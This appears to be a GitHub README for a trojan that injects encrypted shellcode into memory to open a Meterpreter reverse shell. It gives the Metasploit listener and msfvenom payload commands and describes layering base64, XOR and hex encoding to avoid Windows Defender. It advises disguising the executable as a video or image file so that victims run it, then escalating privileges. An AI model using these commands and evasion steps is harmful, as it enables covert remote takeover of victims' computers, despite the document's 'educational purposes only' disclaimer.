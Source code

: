# Encrypted Local Process injection Trojan
Malware that creates a process and injects a shellcode that opens a reverse shell. Shellcode encrypted using xor, base64 and hexadecimal encoding, undetected by Windows defender. 
This code is for educational purposes only, do not use it for any malicious or unauthorized activity.

# 💻 Code
Simple shellcode execution technique in which the payload is decrypted, copied into memory, and executed in the same process without writing it into disk. Similar to my other trojan, [Self injection](https://github.com/Hue-Jhan/Encrypted-Trojan-Undetected), but slightly different.

### 1) Listener and payload:
First, on the attacker's machine i used a classic multi handler exploit to run the payload: 
``` msfconsole -q -x "use exploit/multi/handler; set payload windows/meterpreter/reverse_tcp; set lhost XXX; set lport XXX; exploit" ```

The payload is a simple msfvenom reverse-shell shellcode, it's reccomended to use shigata_ga_nai alternatives since its easy to detect:
``` msfvenom -p windows/meterpreter/reverse_tcp LHOST=XXX LPORT=XXXX  -e x86/shikata_ga_nai -f c  ```. 

You can embed the code into pretty much anything, you can even use tools to mask the exe file into a mp4 or jpg file, complete with a new icon and a name, even the extension can be masked. Once the victim runs the exe, a new session will pop up on metasploit, where you can create a shell and work towards privilege escalation.

### 2) Encrypter:

The encryptor takes the shellcode (which in this code is just a windows message box that says xd lol) and obfuscates it using 3 layers of encryption:
- First we encode binary data into Base64, try to use a custom base64_chars set instead of the standard Base64 alphabet to obfuscate more;
- Secondly we apply XOR encryption using a single-byte key;
- Then we convert it into its hexadecimal string representation and we get the final encrypted shellcode.

### 3) Injector:

The actual injection process works like this:
- First we decode the shellcode by doing the opposite of what we did in the encrypter, make sure to use the same xor key;
- Secondly we allocate the memory, write shellcode to the allocated memory, and make it readable, writable, and executable, allowing the shellcode to run.
- Then we copy the shellcode into the newly allocated memory and we make sure that the allocated memory has the correct permissions to execute the shellcode;
- It creates a new thread at the address of ```allocated_mem```, which contains and executes the shellcode as if it were a normal function.

Finally we wait for the created thread to finish executing before freeing the memory and the buffers.

# 🛡 AV Detection

<img align="right" src="media/hsav2.png" width="430" />

Just like my previous trojans, it's currently undetected by windows defender, but it's easily blocked by Bitdefender, even the free trial.
Again Virus Total says that bitdefender won't classify the exe file as malicious, while Microsoft recognizes the malware.... it should be the exact opposite but idk.

You can still make it fully undetectable by using other encrypting softwares like Soggoth or Supernova or idk, but at this point just use a much more known rat like xworm.
